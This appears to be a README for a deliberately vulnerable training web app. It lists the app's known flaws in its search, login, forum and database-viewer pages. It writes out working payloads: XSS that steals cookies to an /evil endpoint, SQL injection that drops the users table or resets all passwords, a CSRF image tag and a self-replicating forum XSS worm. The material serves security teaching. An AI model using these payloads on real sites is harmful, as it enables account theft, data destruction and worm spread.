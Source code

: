 # Web Playground
A web application demonstrating web vulnerabilities. Testing XSS, script injection, SQL injection,...

# Known issues

Here is a list of all known voulnarbilities on the site

## Search

1. XSS: When displaying "You searched for <string>" the string is not properly
escaped.
   * Test for XSS: `<script> alert("XSS!") </script>`
   * Change all links: `Facebook <script> $(function(){$("a").attr("href", "/evil");}); </script>`
   * __Steal cookies__: `<script> $.get("/evil?save=cookie&cookie="+encodeURI(document.cookie)); </script>`
2. SQL Injection: SQL query is manually created and not properly escaped.
   * Test shows stack trace and actual code: `'`
   * See all hidden links: `aaa ' OR hide=1 OR hide='`

## Login

1. Remember password: Browser can preload your saved passwords.
   * You can inspect the password input field and change type from `password` to
   `text` and the saved password will be visible.
2. GET: Using GET method instead of POST
   * Everyone can see all the posted data i.e. username and password in the URL
3. CSRF: site does not check for origin of the request
   * You can click a link (or not) and be logged in as someone else
4. __SQL injection: SQL query not properly escaped__
   * Test shows stack trace and actual code: `'`
   * Delete tables: `'); DROP TABLE users;('`
   * Change all passwords: `'); UPDATE users SET password='funfun';`

## Forum

1. GET: Using GET method instead of POST
   * No re-confirmation when reloading a page. You simply re-post.
2. CSRF: site does not check for origin of the request
   * Images can cause damage: `<img src='/forum?action=new&title=XSS&content=imageXSS'/>`
3. XSS: Many things not escaped. Title, content, user's name.
   * Self replicating post:
      ```HTML
      <span class="xss">
          Tekst?
          <script>
              $.get('?action=new&title=XSS&content='+
                    encodeURIComponent($(".xss")[0].outerHTML));
          </script>
      </span>
      Quil?
      <script>
          var prog = "Quil?<script>var prog = @;$.get('?action=new&title=XSS&content='+encodeURIComponent(prog.replace('@', prog)+'t>'));</scrip";
          $.get('?action=new&title=XSS&content='+
                encodeURIComponent(prog.replace('@', prog)+'t>'));
      </script>
      ```
   * __Steal cookies__: `<script> $.get("/evil?save=cookie&cookie="+encodeURI(document.cookie)); </script>`

## Database viewer (/db_viewer_XDSie983BQbnxc_asjdh)

1. URL change: no sanity checks for url parameters
   * Access all data by changing table name in the url
